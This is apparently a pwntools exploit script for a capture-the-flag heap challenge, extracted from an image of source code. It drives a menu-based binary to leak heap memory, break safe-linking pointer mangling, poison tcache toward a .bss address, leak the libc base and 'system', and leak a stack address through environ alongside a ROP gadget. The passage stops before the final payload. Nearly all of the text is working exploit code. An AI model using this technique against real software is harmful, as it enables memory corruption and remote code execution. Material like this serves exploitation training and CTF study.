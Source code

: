 ```

if args.REMOTE:
    conn = ''.split()
    p = remote(conn[1], int(conn[2]))
else:
    p = process(exe.path)
# GDB()

def buy(size, content):
    sla(b'> ', b'1')
    sla(b'Size: ', str(size))
    sa(b'Content: ', content)

def write(content):
    sla(b'> ', b'2')
    sa(b'Content: ', content)

def erase():
    sla(b'> ', b'3')

def read():
    sla(b'> ', b'4')

def exit():
    sla(b'> ', b'5')

buy(0x10, b'a'*0x10)
erase()
read()
ru(b'Content: ')
heap_chunk = (u32(b'\x00' + r(3)) << 4) + 672
log.info(hex(heap_chunk))
write(b'b'*8)
erase()
read()
ru(b'Content: ')
heap_crypto = u32(r(4))
log.info(hex(heap_crypto))
key = heap_chunk ^ heap_crypto
bss = (0x404050 ^ key) & 0x0fffffff
write(p64(bss))
buy(0x10, b'c'*16)
buy(0x10, p64(0) + p64(0x404040))
read()
ru(b'Content: ')
libc.address = u64(r(6) + b'\x00\x00') - 2205344
log.info(hex(libc.address))
log.info(hex(libc.sym['system']))
buy(0x10, b'a'*0x10)
erase()
write(b'c'*0x10)
erase()
write(p64(bss))
buy(0x10, b'a'*0x10)
buy(0x10, p64(0) + p64(libc.sym.environ))

pop_rdi = 0x0000000000401563

read()
ru(b'Content: ')
stack_leak = u64(r(6) + b'\x00\x00') - 336
log.info(hex(stack_leak))
buy(0x20, b'a'*0x20)
```